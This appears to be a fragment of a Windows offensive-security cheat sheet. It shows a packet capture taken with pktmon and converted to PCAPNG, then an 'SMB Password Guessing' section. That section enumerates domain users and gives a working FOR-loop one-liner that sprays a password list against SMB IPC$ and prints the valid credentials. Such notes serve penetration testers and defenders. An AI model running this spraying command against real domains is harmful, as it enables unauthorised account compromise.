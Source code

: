 C:\Users\RoseSecurity>pktmon start  --etw --log-mode real-time --packet-size 1500
Active measurement started.
Processing...

23:02:26.539704700 PktGroupId 562949953421500, PktNumber 1, Appearance 1, Direction Tx , Type Ethernet , Component 78, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.539709400 PktGroupId 562949953421500, PktNumber 1, Appearance 2, Direction Tx , Type Ethernet , Component 31, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.539712200 PktGroupId 562949953421500, PktNumber 1, Appearance 3, Direction Tx , Type Ethernet , Component 32, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.539714000 PktGroupId 562949953421500, PktNumber 1, Appearance 4, Direction Tx , Type Ethernet , Component 33, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        40-EC-99-B9-17-25 > F0-B4-D2-5A-D3-E2, ethertype IPv4 (0x0800), length 66: 192.168.0.62.65066 > 172.217.2.115.443: Flags [S], seq 1995496356, win 64240, options [mss 1460,nop,wscale 8,nop,nop,sackOK], length 0
23:02:26.599504500 PktGroupId 1688849860264106, PktNumber 1, Appearance 1, Direction Rx , Type Ethernet , Component 33, Edge 1, Filter 1, OriginalSize 66, LoggedSize 66
        F0-B4-D2-5A-D3-E2 > 40-EC-99-B9-17-25, ethertype IPv4 (0x0800), length 66: 172.217.2.115.443 > 192.168.0.62.65066: Flags [S.], seq 546326696, ack 1995496357, win 60720, options [mss 1380,nop,nop,sackOK,nop,wscale 8], length 0
23:02:26.599510100 PktGroupId 1688849860264106, PktNumber 1, Appearance 2, Direction Rx , Type Ethernet , Component 32, 
... <TRUNCATED FOR BREVITY>....
```

Converting to PCAPNG

```
C:\Users\RoseSecurity>pktmon pcapng PktMon1.etl --out RoseSecurity-pktmon.pcapng
Processing...

Packets total:     60
Packet drop count: 0
Packets formatted: 60
Formatted file:    RoseSecurity-pktmon.pcapng
```
## SMB Password Guessing:

Create list of domain users

```
C:\> net user /domain > users.txt
```

Create password list 

```
C:\> notepad pass.txt
```

Start spraying!

```
C:\> @FOR /F %p in (pass.txt) DO @FOR /F %n in (users.txt) DO @net use \\SERVERIP\IPC$ /user:DOMAIN\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\SERVERIP\IPC$ > NUL
```

```

[VICTIM]: PS C:\Users\Victim\Documents>